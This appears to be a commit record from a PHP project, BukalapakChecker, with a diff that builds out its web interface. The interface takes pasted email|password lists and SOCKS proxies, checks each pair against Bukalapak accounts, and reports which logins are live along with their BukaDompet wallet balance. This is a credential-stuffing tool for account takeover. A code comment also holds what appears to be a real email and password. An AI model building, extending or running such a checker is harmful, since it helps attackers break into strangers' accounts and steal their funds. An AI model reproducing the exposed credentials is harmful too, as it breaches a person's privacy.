

Before and after one commit to ammarfaizi2/BukalapakChecker, a PHP site: page / in a window 1280 px wide. Shown: the top 685 px of the page, without its empty margins (0-839 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Update view

```diff
--- a/controller.php
+++ b/controller.php
@@ -9,7 +9,7 @@ if (isset($_GET['email'], $_GET['password'])) {
 	 * @param string $email
 	 * @param string $password
 	 */
-	$app = new \Bukalapak\BukalapakChecker($_GET['email'], $_GET['password'], true);
+	$app = new \Bukalapak\BukalapakChecker(trim($_GET['email']), trim($_GET['password']), true);
 	$app->check();
 	print $app->output();
 } else {
--- a/index.php
+++ b/index.php
@@ -6,35 +6,40 @@
 		body {
 			font-family: Helvetica;
 		}
-		.wq {
-			display: inline-block;
-		}
 	</style>
 </head>
 <body style="background-color: #e8094c;">
 	<center>
 		<h1>Checker Bukalapak</h1>
 	</center>
-	<form method="post" action="javascript:void(0);">
+	<form method="post" action="javascript:void(0);" id="fr">
 		<table>
+			<tr>
 				<td>
 					<div style="padding-left: 20%; background-color: #09c0e5; width: 80.1%;padding-top:3px;padding-bottom: 3px;">
 						<p style="font-size:20px;"><strong>Input email &amp; password</strong></p>
 					</div>
-				<textarea id="credentials" style="resize: none; width: 345px; height: 521px;"></textarea>
+					<textarea id="credentials" placeholder="email1@example.com|password" style="resize: none; width: 345px; height: 521px;" required></textarea>
 				</td>
 				<td>
 					<div style="padding-left: 15%; background-color: #09c0e5; width: 85.1%;padding-top:3px;padding-bottom: 3px;">
 						<p style="font-size:20px;"><strong>Input socks</strong></p>
 					</div>
-				<textarea id="socks" style="resize: none; width: 150px; height: 521px;"></textarea>
+					<textarea id="socks" placeholder="127.0.0.1:8000" style="resize: none; width: 150px; height: 521px;"></textarea>
 				</td>
 				<td>
 					<div>
-					<button id="go" style="margin-top:-100px;">Check</button>
+						<button id="go">Check</button>
 					</div>
 				</td>
-		<table>
+				<td>
+					<div style="margin-top: -299.4px; margin-left: 10%; background-color: #09c0e5; padding-top:3px;padding-bottom: 3px;" id="rbound"><p style="font-size:20px;"><strong>Result</strong></p><table align="top" style="background-color: greenyellow;" id="tbres"></table></div>
+				</td>
+			</tr>
+		</table>
+		<div>
+			<input type="hidden" name="transit" id="transit">
+		</div>
 	</form>
 	<script type="text/javascript">
 		/**
@@ -47,32 +52,132 @@
 			{
 				this.socks = document.getElementById('socks').value;
 				this.credentials = document.getElementById('credentials').value;
-				this.ContextStream = null;
+				this.ContextStream = false;
 			}
 
 			buildContextStream()
 			{
-				// do it later lah...
+				var a = this.credentials.split("\n"), i, tmp_context = [];
+				for (i in a) {
+					a[i] = a[i].split("|", 2);
+					if (a[i].length === 2) {
+						tmp_context.push({
+							"email": a[i][0],
+							"password": a[i][1]
+						});
+					}
+				}
+				if (tmp_context.length) {
+					this.ContextStream = tmp_context;
+				}
 			}
 
 			get()
 			{
-				return this.ContextStream;
+				return {
+					"credentials": this.ContextStream,
+					"socks": this.socks.split("\n")
+				};
 			}
 		}
-		document.getElementById('go').addEventListener("click", function() {
+
+		class axClass
+		{
+			constructor(credentials, socks)
+			{
+				this.socksPointer = 0;
+				this.credentialsPointer = 0;
+				this.credentials = credentials;
+				this.socks = socks;
+				this.disableTextArea();
+			}
+
+			disableTextArea()
+			{
+				document.getElementById('go').disabled = 1;
+				document.getElementById('socks').disabled = 1;
+				document.getElementById('credentials').disabled = 1;
+			}
+
+			enableTextArea()
+			{
+				document.getElementById('go').disabled = 0;
+				document.getElementById('socks').disabled = 0;
+				document.getElementById('credentials').disabled = 0;
+			}
+
+			nextSocks()
+			{
+				this.socksPointer++;
+			}
+
+			nextCredentials()
+			{
+				this.credentialsPointer++;
+			}
+
+			feofCredentials()
+			{
+				return this.credentialsPointer < this.credentials.length;
+			}
+
+			feofSocks()
+			{
+				return this.socksPointer < this.socks.length;
+			}
+
+			socksError()
+			{
+				return false;
+			}
+
+			check()
+			{
+				var ch 	 = new XMLHttpRequest(),
+					that = this;
+				ch.onreadystatechange = function(){
+					if (this.readyState === 4) {
+						that.buildHTMLContext(this.responseText);
+						if (!that.feofCredentials()) {
+							that.enableTextArea();
+						}
+					}
+				}
+				ch.open("GET", "controller.php?" + this.buildQuery());
+				ch.send(null);
+				return true;
+			}
+
+			buildHTMLContext(json)
+			{
+				// {"email":"ammarfaizi2@gmail.com","password":"triosemut123","result":{"status":"live","data":{"saldo_buka_dompet":"0"}}}
+				json = JSON.parse(json);
+				if (json['result']['status'] == "live") {
+					document.getElementById('tbres').innerHTML += "<tr><td style=\"background-color: #16d30c;\">"+json['email']+"|"+json['password']+"<br>Status : Live<br>Saldo BukaDompet : "+json['result']['data']['saldo_buka_dompet']+"</td></tr>";
+				} else {
+					document.getElementById('tbres').innerHTML += "<tr><td style=\"background-color: #fc415a;\">"+json['email']+"|"+json['password']+"<br>Status : Die</td></tr>";
+				}
+			}
+
+			buildQuery()
+			{
+				return "email=" + encodeURIComponent(this.credentials[this.credentialsPointer]['email']) + "&password=" + encodeURIComponent(this.credentials[this.credentialsPointer]['password']);
+			}
+		}
+		document.getElementById('fr').addEventListener("submit", function() {
+			/*if (document.getElementById('rbound').innerHTML == "") {
+				document.getElementById('rbound').innerHTML = '<p style="font-size:20px;"><strong>Result</strong></p><table style="height: 521px;background-color: greenyellow;" id="tbres"></table>';
+			}*/
 			var context_stream = new ContextStream();
 			context_stream.buildContextStream();
 			context_stream = context_stream.get();
 			if (context_stream !== false) {
-				var ch = new XMLHttpRequest();
-				ch.onreadystatechange = function() {
-					if (this.readystate === 4) {
-						//
+				var ax = new axClass(context_stream['credentials'], context_stream['socks']);
+				while (ax.feofCredentials()) {
+					if (ax.check()) {
+						ax.nextCredentials();
 					}
-				};
-				ch.open("GET", "controller.php?" + context_stream);
-				ch.send(null);
+				}
 			}
 		});
 	</script>
```
Lines whose indentation alone changed are shown as unchanged.
